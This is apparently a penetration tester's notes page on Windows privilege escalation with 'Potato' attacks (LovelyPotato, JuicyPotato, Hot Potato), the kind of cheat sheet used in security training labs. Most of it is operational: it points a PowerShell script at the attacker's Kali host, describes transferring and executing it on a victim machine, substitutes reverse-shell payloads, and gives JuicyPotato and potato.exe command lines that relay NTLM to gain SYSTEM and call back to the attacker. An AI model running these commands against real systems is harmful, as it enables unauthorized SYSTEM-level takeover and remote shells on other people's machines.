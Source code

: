 ==OPEN AND FOLLOW THE README!!==

==Make sure you change all the variables needed!==

Invoke-LovelyPotato.ps1:

`$RemoteDir = "http://$KALI`
`$LocalPath = "[WritablePathOnVictimMachine]"`

Replace the first "meterpreter.exe" with "reverse{86/64}.exe" 



Transfer and execute Invoke-LovelyPotato.ps1 on the target.
![[2._Powershell  Bypass#Execution bypass]]

![[4._File Transfers#Powershell Download and execute]]


Now just wait, as this can take up to 10 mins:



Keep an eye on result.log if unable to determine if working.  Log will grow as it's working.

![[1._Reverse Shells (WIN)#MSFVenom#bat]]

![[1._rlwrap]]

```batch - windows
JuicyPotato.exe -t * -p shell.bat -l 4444
```


#### Hot Potato
Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges. 

The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution.

This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.

(Note: These steps are for Windows 7)

1. Copy the potato.exe exploit executable over to Windows.

2. Start a listener on Kali.

![[1._rlwrap]]

3. Run the exploit:

```batch - windows
.\potato.exe -ip $KALI -cmd "reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true - enable_exhaust true
```

4. Wait for a Windows Defender update, or trigger one manually.


#### Juicy Potato
